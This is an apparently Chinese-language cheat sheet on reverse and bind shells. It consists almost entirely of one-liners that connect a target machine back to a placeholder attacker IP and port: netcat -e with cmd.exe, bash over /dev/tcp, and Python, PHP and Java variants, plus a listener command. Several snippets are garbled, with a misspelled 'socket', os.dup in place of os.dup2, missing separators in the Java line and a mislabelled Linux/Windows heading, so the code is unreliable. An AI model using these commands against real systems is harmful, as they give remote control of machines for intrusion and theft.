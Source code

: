   
 #linux  

```
nc 攻击机ip 监听端口号 -e c:\windows\system32\cmd.exe
```

  
 #windows  
  
-e:将bash shell 发回主机  
  
1. 正向shell  
  
正向shell时在目标机使用nc将bash shell绑定到特定端口，攻击机nc连接到此端口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OlxyWZAB19icr1kvKpWgeQ1VMNOWgg4OqqtYXu3qpPVJbwxwQbUcop8g/640?wx_fmt=png&from=appmsg "")  
  
  
### bash反弹shell  
  
目标主机可能没有nc或不支持-e参数时，就需要以下方式反弹shell  
- 攻击机监听:
```
nc -lvvp 端口
```

  
  
- 目标主机:
```
bash -i >& /dev/tcp/攻击机ip/监听端口号 0>&1
```

  
  
> bash -i产生一个交互式shell&将&前后内容相结合重定向(>)至后者/dev/tcp/ip/port对socket网络连接的抽象0>&1将标准输入和标准输入内容相结合，然后重定向至标准输出内容。0标准输入、1标准输出、2错误输出  
  
## 其他反弹shell方式  
### python反弹shell  

```
importsoket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((&#34;攻击机IP&#34;,监听端口号));os.dup(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([&#34;/bin/sh&#34;,&#34;-i&#34;]);
```

### php反弹shell  

```
$sock=fsockopen(&#34;攻击机IP&#34;,监听端口);exec(&#34;/bin/sh -i <&3 >&3 2>&3&#34;);
```

### java反弹shell  

```
r=Runtime.getRuntime()p=r.exec([&#34;/bin/bash&#34;,&#34;-c&#34;,&#34;exec 5<>/dev/tcp/攻击机ip/监听端口;cat <&5 | while read line;do $line 2>&5>&5;done&#34;]asString[])p.waitFor()
```
